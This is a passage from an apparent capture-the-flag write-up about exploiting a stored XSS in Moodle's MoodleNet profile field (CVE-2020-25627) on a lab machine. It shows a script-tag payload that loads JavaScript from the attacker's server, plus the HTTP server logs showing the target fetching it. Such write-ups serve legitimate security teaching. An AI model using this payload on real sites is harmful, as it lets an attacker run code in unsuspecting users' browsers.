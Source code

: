 ![](/img/image-20210401142335290.png)

The Reminder for joining students says that all students need to have a
MoodleNet profile:

![](/img/image-20210401142418761.png)

## Shell as www

### Moodle Access as Manuel

#### XXS POC

Any time I see a CTF machine suggest that someone will be checking
things, I wonder if that's a hint to some kind of automation, and in
this case, would fit with the XSS vulnerabilities I already noticed.
[This security
report](https://moodle.org/mod/forum/discuss.php?d=410839#p1657001),
MSA-20-0011: Stored XSS via moodlenetprofile parameter in user profile,
seems to pull all of this together (CVE-2020-25627).

On the profile page, there's a field for MoodleNet profile:

![](/img/image-20210401144331846.png)

To see if this will work, I'll create a simple payload that attempts to
load a script from my server:



    <script src="http://10.10.14.7/pwn.js"></script>



I'll start a Python HTTP server (`python3 -m http.server 80`), and
submit that as the MoodleNet profile. Almost instantly I get a hit back
form my own IP trying to fetch the script:



    10.10.14.7 - - [05/Apr/2021 14:47:18] code 404, message File not found
    10.10.14.7 - - [05/Apr/2021 14:47:18] "GET /pwn.js HTTP/1.1" 404 -
    10.10.14.7 - - [05/Apr/2021 14:47:18] code 404, message File not found
    10.10.14.7 - - [05/Apr/2021 14:47:18] "GET /pwn.js HTTP/1.1" 404 -



The script does not exist, so my webserver returns 404 (and it looks
like my browser tried a second time to fetch). That's a good sign. It
indicates that the `<script>` block was saved into the page, and if
someone else tries to look at it, they will also try to load my script.

Less than a minute later, there's another hit, from Schooled:



    10.10.10.234 - - [05/Apr/2021 14:48:01] code 404, message File not found
    10.10.10.234 - - [05/Apr/2021 14:48:01] "GET /pwn.js HTTP/1.1" 404 -
    10.10.10.234 - - [05/Apr/2021 14:50:05] code 404, message File not found
    10.10.10.234 - - [05/Apr/2021 14:50:05] "GET /pwn.js HTTP/1.1" 404 -
